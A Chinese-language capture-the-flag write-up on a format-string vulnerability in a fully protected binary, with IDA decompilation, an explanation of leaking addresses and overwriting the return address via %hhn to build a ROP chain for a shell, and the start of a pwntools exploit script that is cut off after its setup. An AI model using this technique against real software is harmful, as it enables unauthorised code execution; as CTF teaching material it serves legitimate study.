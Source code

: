 保护全开的格式化字符串

**IDA静态分析一下**

main()

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  run();
  return 0;
}
```

run()

```plain
unsigned __int64 run()
{
  char s1[88]; // [rsp+0h] [rbp-60h] BYREF
  unsigned __int64 v2; // [rsp+58h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("I need a str: ");
  read_n(s1, 80LL);
  if ( !strcmp(s1, "EXIT") )
    exit(0);
  printf(s1);
  putchar(10);
  printf("I need other str: ");
  read_n(s1, 80LL);
  printf(s1);
  return __readfsqword(0x28u) ^ v2;
}
```

可以看到这里其实就是格式化字符串的漏洞利用点了

第一个printff泄露栈上数据，得到libc基址，栈基址以及elf文件基址。第二次printf利用先前泄露的地址，通过%hhn，修改run函数返回地址的低位字节，将其修改为main函数中的call run指令。

这样当我们执行完run之后会再次调用run,我们可以每次printf都往run函数的返回地址下方写入rop链，并将run的返回地址修改为call run，这样返回到rop链在run的返回地址下布置好，最后一次再把run的返回地址改为与其相近的ret指令地址即可执行rop链从而getshell。

[![](assets/1701612281-ccdf86a658da996b2267131236872926.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224313-6c89edf6-2579-1.png)

exp:

```plain
from pwn import *

context.log_level='debug'
context.arch='amd64'

p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
```